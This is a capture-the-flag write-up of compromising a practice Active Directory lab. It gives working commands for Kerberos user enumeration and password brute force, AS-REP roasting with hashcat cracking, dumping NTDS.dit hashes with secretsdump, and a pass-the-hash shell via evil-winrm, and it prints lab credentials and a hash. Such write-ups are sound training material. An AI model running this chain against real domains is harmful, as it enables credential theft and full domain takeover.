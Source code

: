 # **Attacking Active Directory**

***
## **Difficulty = Info**

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/e258cea5-0589-4240-98fb-f444d291c0d6)

***


Running our nmap scan we have 

```bash
# Nmap 7.94 scan initiated Fri Dec 29 07:26:23 2023 as: nmap -p53,80,88,135,139,389,445,464,593,636,3269,5985,9389,47001 -sCV --min-rate=1000 -T4 -oN nmap.txt -v 10.10.234.228
Nmap scan report for 10.10.234.228
Host is up (0.29s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-12-29 06:26:31Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-12-29T06:26:53
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec 29 07:27:07 2023 -- 1 IP address (1 host up) scanned in 44.78 seconds
```


> [!bug]
> According to nmap output, we have `spookysec.local`, in this case `.local` is identified as the Top-Level Domain (TLD)


# **SMB Enumeration - Port 139/445**

We can use the tool `enum4linux` to enumerate this port, we have **THM-AD** as the `NetBIOS-Domain` Name


![](https://i.imgur.com/Uzgypv9.png)


We also have some lists of users

![](https://i.imgur.com/JaORfAd.png)


We can also use `rpcclient` to enumerate 


```bash
rpcclient -U "" -N 10.10.234.228
```


![](https://i.imgur.com/L10FL7X.png)


Some important commands as used above -:


```bash
rpcclient>srvinfo

rpcclient>enumdomusers

rpcclient>getdompwinfo
```


We couldn't get anything from `rpcclient` though, so let keep enumerating



# **Kerberos Enumeration - Port 88**


We can use a tool called [Kerbrute](https://github.com/ropnop/kerbrute/releases) to enumerate this service to brute force discovery of users, passwords and even password spray!

> [!info]
> Kerberos is a key authentication service within Active Directory.

- **Enumerate** users on a domain

```bash
# --dc : IP of target (KDC)
# -d : domain name
kerbrute userenum --dc 10.10.234.228 -d spookysec.local <Username_wordlist>
```


![](https://i.imgur.com/BOwIWDn.png)


- Bruteforce password of a single user

```bash
# --dc : IP of target (KDC)
# -d : domain name
kerbrute bruteuser --dc 10.10.234.228 -d spookysec.local <passwd_wordlist> <username>
```


![](https://i.imgur.com/2iAQcWV.png)
![](https://i.imgur.com/UxGMJ1D.png)


# **Abusing Kerberos**


we can abuse a feature within Kerberos with an attack called **ASREPRoasting**, we can use a tool called `GetNPUsers.py` withing **impackets** to do this


```bash
GetNPUsers.py spookysec.local/ -dc-ip 10.10.234.228 -usersfile usernames.txt -format hashcat -outputfile hashes.txt
```


As we can see below we have the hash of only `svc-admin` user, a service account


![](https://i.imgur.com/flTlJ5Y.png)


we can go ahead and crack it using `hashcat`

```bash
hashcat -m 18200 hashes.txt ./passwordlist.txt
```


![](https://i.imgur.com/V5Dqn9w.png)

Same password we got with `kerbrute`, Nice :)


# Enumeration Cont'D


Since we now have the username and passwords of the `svc-admin` user and `backup` user given more access within the domain, We can now attempt to enumerate any shares that the domain controller may be giving out.

First tool that comes to mind is `smbclient` and `smbmap`, let try to see shares on this users

```bash
# smbclient
smbclient -U 'svc-admin' -L \\\\10.10.234.228\\

# smbmap
smbmap -u 'svc-admin' -p 'management2005' -H 10.10.234.228
```


`svc-admin` user -:


![](https://i.imgur.com/C3lCOix.png)


`backup` user -:

![](https://i.imgur.com/2iE2kmN.png)


Enumerating `svc-admin` share we found a backup directory with a `backup_credentials.txt` file

![](https://i.imgur.com/TmgRNL6.png)


We can read this file using `smbclient`


![](https://i.imgur.com/ntECgGC.png)

Decoding the content of this file from `Basee64` gives us this


```
backup@spookysec.local:backup2517860
```


Haha, looks like we are a bit faster, `kerbrute` has done most of the work for us :)


```
secretsdump.py spookysec.local/backup:backup2517860@10.10.234.228
```


# **Elevating Privileges within the Domain**


The backup account for the Domain Controller. This account has a unique permission that allows all Active Directory changes to be synced with this user account. This includes password hashes. we can use another tool within Impacket called "`secretsdump.py`". This will allow us to retrieve all of the password hashes that this user account has to offer in `NTDS.dit`

```
secretsdump.py spookysec.local/backup:backup2517860@10.10.234.228
```


![](https://i.imgur.com/4SRZHpC.png)



Since we have the **Win-RM** port opened(**5985**), we can use a tool called `evil-winrm` to gain shell on our target with just their **usernames** and respective **NT hashes** using the **pass-the-hash** attack

**_Administrator_** -:

```bash
evil-winrm -i 10.10.234.228 -u administrator -H '0e0363213e37b94221497260b0bcb4fc'
```


![](https://i.imgur.com/BMRYiqX.png)


Since we are admin and we can't login via `svc-admin` and `backup` we can go ahead and retrieve the other flags located under `C:\Users\` :)

GG


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>






